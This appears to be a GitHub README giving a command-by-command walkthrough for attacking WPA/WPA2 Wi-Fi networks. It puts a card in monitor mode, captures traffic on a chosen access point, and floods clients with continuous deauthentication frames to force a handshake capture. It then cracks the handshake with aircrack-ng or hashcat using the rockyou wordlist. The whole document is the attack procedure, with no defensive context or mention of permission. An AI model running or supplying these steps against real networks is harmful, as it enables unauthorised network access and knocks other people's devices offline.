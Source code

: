 # Attacking WAP and WAP2 Wireless Networks Using Airmon-ng and Airdump-ng

# and Cracking using Aircrack-ng or Hashcat


## Capturing the 4-way Handshake

Checking WiFi Cards

`iwconfig`

Setting WiFi Card on Monitor Mode

`sudo airmon-ng start wlan0`

Listening for networks

`sudo airodump-ng wlan0`

*Note: the interface name may or may not change from wlan0 to wlan0mon. Check with iwconfig*

Save the MAC address and the channel number of the Access Point you want to attack

Capture wireless network traffic on target AP. Keep this running in a single terminal.

`sudo airodump-ng -w <hack1> -c 11 --bssid <00:FF:FF:FF:FF:FF> <wlan0>`

- "--bssid 00:FF:FF:FF:FF:FF" specifies the MAC address of the access point (AP) 
- "wlan0" or "wlan0mon" is the name of the wireless network interface to use for capturing traffic.
- "-c 11" specifies the wireless channel to capture traffic on.
- "-w hack1" specifies the name of the output file. In this case, it's "hack1".


In another terminal, de-Authenticate to to force reconnection and capture the handshake.

`sudo aireplay-ng --deauth 0 -a <00:FF:FF:FF:FF:FF> <wlan0>`

Stop monitor mode

`airmon-ng stop wlan0mon`


## Cracking the Captured Handshake

### Method 1 - Aircrack-ng

`aircrack-ng <hack1.cap> -w /usr/share/wordlists/rockyou.txt `


### Method 2 - Hashcat

Installation

`apt-get install hashcat`
`sudo apt-get install hcxtools`

Convert the .cap file to .hccapx format using the "cap2hccapx" tool. The syntax of the command

`cap2hccapx <input.cap> <output.hccapx>`

Crack

`hashcat -m 2500 -a 0 -w 3 <output.hccapx> <wordlist.txt>`

